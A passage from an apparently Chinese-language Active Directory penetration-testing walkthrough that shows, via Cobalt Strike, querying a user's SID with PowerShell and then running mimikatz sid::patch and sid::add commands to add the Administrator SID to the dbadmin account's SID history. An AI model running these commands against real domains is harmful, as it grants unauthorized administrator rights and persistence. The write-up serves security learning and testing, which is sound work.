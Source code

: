 
### 5.1.2. 获取某个用户SID值

这里使用CS输入命令后，会出现乱码的情况，不过还是能够使用的。

```
powershell Import-Module ActiveDirectory
powershell Get-ADUser webadmin -Properties sidhistory
```

![image-20230815140811819](assets/image-20230815140811819.png)

### 5.1.3. 赋予某用户administrator权限

由于这里我登陆的是dbadmin，所以就修改dbadmin，可以看到下面提示成功了。

```
privilege::debug
sid::patch
sid::add /sam:dbadmin /new:administrator
```

![image-20230815141204752](assets/image-20230815141204752.png)
